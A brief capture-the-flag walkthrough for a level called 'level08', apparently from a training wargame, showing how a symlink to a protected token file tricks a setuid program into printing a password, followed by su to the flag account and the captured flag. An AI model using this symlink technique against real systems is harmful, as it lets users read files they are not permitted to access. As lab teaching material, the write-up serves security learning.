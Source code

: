 In this level we have 2 files, an executable level08 and a token that we're not able to read

ls -l

        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token

We can create a symlink race to be able to read the content in token file
(more informations about this on https://en.wikipedia.org/wiki/Symlink_race#:~:text=A%20symlink%20race%20is%20a,not%20otherwise%20accessible%20to%20them.)

ln -s /home/user/level08/token /tmp/pass

./level08 /tmp/pass

        quif5eloekouj29ke0vouxean

su flag08 -> quif5eloekouj29ke0vouxean
getflag

                           Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
